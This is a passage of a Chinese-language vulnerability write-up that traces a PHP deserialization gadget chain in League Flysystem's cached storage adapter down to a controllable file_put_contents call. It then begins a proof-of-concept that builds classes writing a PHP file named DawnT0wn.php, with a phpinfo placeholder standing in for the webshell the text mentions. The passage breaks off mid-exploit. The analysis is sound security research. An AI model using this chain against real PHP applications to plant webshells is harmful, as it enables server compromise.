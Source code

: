 判断文件是否存在

跟进`applyPathPrefix`

![image-20211105200526362](images/48.png)

![image-20211105200818128](images/49.png)

跟进getPathPrefix

![image-20211105200544003](images/50.png)

直接返回一个可控值`$this->pathPrefix`

如果`$this->pathPrefix`为空,`applyPathPrefix`的返回值就是`$path`

`$path`是之前可控的`$this->file`

这里只有构建一个不存在的文件名即可进入save方法的if

跟进write

![image-20211105200131102](images/46.png)

有一个`file_put_contents`

`$location`的值和刚才一样已经分析过了

然后进入if判断，`$content`的值也是可控的,这里就可以用来写文件

占尽天时地利人和,下一步就是写马了

## 漏洞复现

```
<?php

namespace League\Flysystem\Cached\Storage;

abstract class AbstractCache
{
    protected $autosave = false;
    protected $cache = ['<?php phpinfo();?>'];
}


namespace League\Flysystem\Cached\Storage;

class Adapter extends AbstractCache
{
    protected $adapter;
    protected $file;

    public function __construct($obj)
    {
        $this->adapter = $obj;
        $this->file = 'DawnT0wn.php';
    }
}


namespace League\Flysystem\Adapter;

abstract class AbstractAdapter
{
}


```